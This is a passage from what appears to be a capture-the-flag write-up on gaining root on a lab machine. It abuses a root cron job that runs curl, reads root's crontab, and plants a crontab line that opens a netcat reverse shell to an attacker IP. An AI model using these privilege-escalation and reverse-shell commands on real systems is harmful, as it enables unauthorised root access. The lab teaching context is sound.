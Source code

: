	sudo su -
	root@curling:~#

#### Get root using crontabs

	echo 'url = "file:///var/spool/cron/crontabs/root"' > input 
	watch -n 1 cat report

```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.1F3WTb/crontab installed on Tue May 22 19:02:51 2018)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

##### Create a malicious crontab

```bash
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.201 1234 >/tmp/f' >> crontab
```

##### Serve malicious crontab

```bash
python	-m SimpleHTTPServer 80	// Python
python3	-m http.server 80		// Python3
```

input:
